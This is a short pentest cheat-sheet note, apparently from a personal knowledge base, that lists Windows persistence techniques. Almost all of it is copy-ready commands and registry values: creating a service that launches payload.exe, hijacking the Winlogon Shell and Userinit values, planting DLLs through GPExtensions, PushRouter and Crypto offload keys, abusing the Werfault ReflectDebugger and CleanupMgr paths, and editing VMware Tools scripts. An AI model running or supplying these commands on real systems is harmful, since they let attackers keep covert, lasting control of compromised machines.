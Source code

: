 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### SC service creation
```command prompt - windows
sc create newservice type= own type= interact binPath=
“C:\windows\system32\cmd.exe /c payload.exe" & sc start newservice
```

#### Winlogon Helper DLL Shell
```command prompt - windows
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, payload.exe" /f
```

```powershell - windows
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, payload.exe" -Force
```

#### Winlogon Helper DLL UserInit
```command prompt - windows
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, payload.exe" /f
```

```powershell - windows
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, payload.exe" -Force
```

#### Winlogon GP Extensions
```command prompt - windows
HKLM\SOFTWARE\Microsoft\Windows
NT\CurrentVersion\Winlogon\GPExtensions\$GUID\DllName=payload.dll
```

#### OMA Client Provisioning dmcfghost.exe
```command prompt - windows
HKLM\SOFTWARE\Microsoft\PushRouter\Test\TestDllPath2=payload.dll
```

#### Werfault.exe Reflective Debugger
```command prompt - windows
HKLM\Software\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger=<path\to\payload.exe>
```

```command prompt - windows
werfault.exe -pr 1
```

#### OffloadModExpo Function
```command prompt - windows
HKLM\Software\Microsoft\Cryptography\Offload\ExpoOffload=payload.dll
```

#### DiskCleanup CleanupMgr
```command prompt - windows
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer\
cleanuppath = %SystemRoot%\System32\payload.exe
```

#### VMware Tools BAT File Persistence
Add command into one or more of the following:

C:\Program Files\VMware\VMware Tools\poweroff-vm-default.bat
C:\Program Files\VMware\VMware Tools\poweron-vm-default.bat
C:\Program Files\VMware\VMware Tools\resume-vm-default.bat
C:\Program Files\VMware\VMware Tools\suspend-vm-default.bat


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
